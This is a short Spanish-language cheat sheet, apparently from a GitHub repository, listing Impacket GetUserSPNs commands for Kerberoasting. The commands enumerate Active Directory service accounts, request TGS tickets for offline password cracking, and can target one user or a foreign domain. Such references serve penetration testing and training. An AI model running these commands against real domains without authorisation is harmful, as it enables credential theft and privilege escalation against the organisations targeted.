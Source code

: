 # GetUserSPNs Cheat Sheet

#### Kerberoasting Attack
```
impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP>
```

#### Kerberoasting Attack - con usuario y contraseña que tengamos
```
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD>
```

#### Obtener TGS
```
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -request
```

#### Obtener TGS y guardar el resultado en un archivo
```
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -request -outputfile <OUTPUT>
```

#### Obtener TGS de un usuario en particular
```
impacket-GetUserSPNs -dc-ip <IP-TARGET> <DOMAIN>/<USER>:<PASSWORD> -request-user <NAME-USER>
```

#### Kerberoasting Attack usando una autenticación kerberos
```
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -k -dc-ip <DOMAIN>
```

#### Kerberoasting Attack hacia un dominio objetivo
```
impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -target-domain <DOMAIN>
```


---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)